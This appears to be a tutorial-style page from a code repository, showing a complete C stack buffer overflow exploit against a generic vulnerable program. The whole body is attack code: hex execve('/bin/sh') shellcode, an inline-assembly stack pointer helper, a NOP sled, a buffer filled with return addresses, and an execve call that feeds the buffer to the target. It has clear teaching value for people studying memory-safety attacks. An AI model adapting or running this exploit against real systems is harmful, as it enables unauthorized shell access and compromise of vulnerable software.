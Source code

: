 - example exploit for vulnerable program, where shellcode is hexadecimal string encoding machine instructions (note that shellcode can also be written in assembly and inserted into executable by compiler, ```gcc -o exploit exploit.c shellcode.s```, and change the line ```unsigned char code[] = ... ;``` into ```extern char shellcode[];```)

    ```
    /* exploit.c */
    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>

    #define PROGRAM "./program"

    /* shellcode */
    unsigned char code[] =
        "\xeb\x15\x5b\x31\xc0\x89\x5b\x08\x88\x43\x07\x8d\x4b\x08\x89\x43"
        "\x0c\x89\xc2\xb0\x0b\xcd\x80\xe8\xe6\xff\xff\xff/bin/sh";

    /* inline macro to get stack pointer */
    __inline__ unsigned int get_esp(void) {
        unsigned int res;
        __asm__("movl %%esp, %0" : "=a" (res));
        return res;
    }

    int main(int argc, char **argv) {
        unsigned int address, i, offset = 0;
        char buffer[768];
        char *n[] = { PROGRAM, buffer, NULL };

        /* offset from base address */
        if (argv[1]) {
            offset = strtol(argv[1], NULL, 10);
        }

        address = get_esp() + offset;
        fprintf(stderr, "using address %#010x\n", address);
        memset(buffer, 0, sizeof(buffer));

        /* fill buffer with addresses, four byte at a time */
        for (i = 0; i < sizeof(buffer); i += 4) {
            *(unsigned int *)(buffer + i) = address;
        }

        /* nop-sled to fill half buffer with nop */
        memset(buffer, 0x90, sizeof(buffer)/2);

        /* place shellcode after nop-sled, rest is filled with addresses */
        memcpy(buffer + sizeof(buffer)/2, code, strlen(code));

        execve(n[0], n, NULL);
        perror("execve");
        exit(1);
    }
    ```
